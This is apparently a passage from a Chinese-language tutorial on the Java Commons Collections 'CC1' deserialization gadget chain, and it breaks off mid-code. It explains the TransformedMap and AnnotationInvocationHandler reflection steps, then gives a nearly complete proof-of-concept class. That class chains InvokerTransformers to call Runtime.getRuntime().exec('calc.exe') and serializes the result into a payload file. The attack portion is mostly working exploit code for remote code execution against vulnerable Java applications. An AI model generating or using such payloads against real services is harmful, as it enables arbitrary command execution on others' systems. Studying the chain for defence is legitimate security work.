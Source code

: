 ```java
Map map = new HashMap();
map.put("value", "Roderick");
Map tmap = TransformedMap.decorate(map, null, transformerChain);
```

反射获取AnnotationInvocationHandler，获取实例传入tamp，反序列化的过程就会调用tamp.setValue

```java
Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
declaredConstructor.setAccessible(true);
Object o = declaredConstructor.newInstance(Retention.class, tmap);
```

综上，组合起来完整的poc

```java
package cc1;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.io.*;
import java.lang.annotation.Retention;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class test {
    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[]{
                //传入Runtime类
                new ConstantTransformer(Runtime.class),
                //反射调用getMethod方法，然后getMethod方法再反射调用getRuntime方法，返回Runtime.getRuntime()方法
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                //反射调用invoke方法，然后反射执行Runtime.getRuntime()方法，返回Runtime实例化对象
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                //反射调用exec方法
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{"calc.exe"})
        };
        //把transformers的4个Transformer执行
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map map = new HashMap();
        map.put("value", "uf9n1x");
        Map tmap = TransformedMap.decorate(map, null, transformerChain);
        //反射获取AnnotationInvocationHandler的对象传入tmap
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor declaredConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        declaredConstructor.setAccessible(true);
        Object o = declaredConstructor.newInstance(Retention.class, tmap);


        //序列化写文件
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("outCC1.bin"));
```